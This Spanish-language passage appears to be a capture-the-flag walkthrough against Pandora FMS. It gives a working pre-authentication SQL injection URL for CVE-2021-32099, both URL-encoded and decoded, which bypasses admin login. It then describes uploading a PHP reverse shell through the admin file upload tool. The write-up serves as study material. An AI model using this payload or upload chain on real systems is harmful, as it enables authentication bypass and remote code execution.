 Y encontramos:

- SQL Injection (pre authentication) (CVE-2021-32099)
- Phar deserialization (pre authentication) (CVE-2021-32098)
- Remote File Inclusion (lowest privileged user) (CVE-2021-32100)
- Cross-Site Request Forgery (CSRF)

Así que buscamos el CVE de inyección SQL: https://github.com/ibnuuby/CVE-2021-32099

### CVE-2021-32099

**POC:**
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

Esta inyección de SQL está presente porque la declaración SQL no utiliza declaraciones preparadas, como puede ver a continuación. Normalmente, utilizaría un signo de interrogación en lugar de los parámetros.

Nos centramos en una grave vulnerabilidad de inyección SQL. Puede explotarse de forma remota sin ningún privilegio de acceso y permite a un atacante eludir por completo la autenticación del administrador. Esto permite al final ejecutar código arbitrario en el sistema.

Volviendo a https://github.com/ibnuuby/CVE-2021-32099

Vemos que está codificado en URL, usamos URL encoder para decodificarlo:

**Entrada:**
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

**Salida:**
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```

## Reverse Shell

Luego de eso vamos a la sección "Upload file administrator archives" en admin tools y cargamos una reverse shell. Usaremos:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
